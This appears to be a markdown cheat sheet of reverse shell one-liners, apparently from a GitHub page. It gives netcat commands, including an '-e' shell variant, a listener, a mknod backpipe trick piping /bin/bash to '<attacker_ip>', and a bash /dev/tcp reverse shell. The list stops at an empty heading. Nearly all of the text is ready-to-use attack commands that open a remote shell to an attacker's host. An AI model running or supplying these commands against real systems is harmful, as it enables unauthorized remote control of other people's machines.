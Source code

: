

# Reverse Shell

## Netcat

Target machine connect back to the attack machine

```
nc [ip addr] [port] -e [shell]
```

Attack machine listener

```
nc -n -vv -l -p [port]
```

## netcat with GAPING_SECURITY_HOLE disabled

Target machine connect back to the attack machine with `GAPING_SECURITY_HOLE` disabled

```
mknod backpipe p; nc <attacker_ip> <port> 0<backpipe | /bin/bash 1>backpipe
```

##  netcat without netcat

```
/bin/bash -i > /dev/tcp/<attacker_ip>/<port> 0<&1 2>&1
```

## netcat without netcat or /dev/tcp
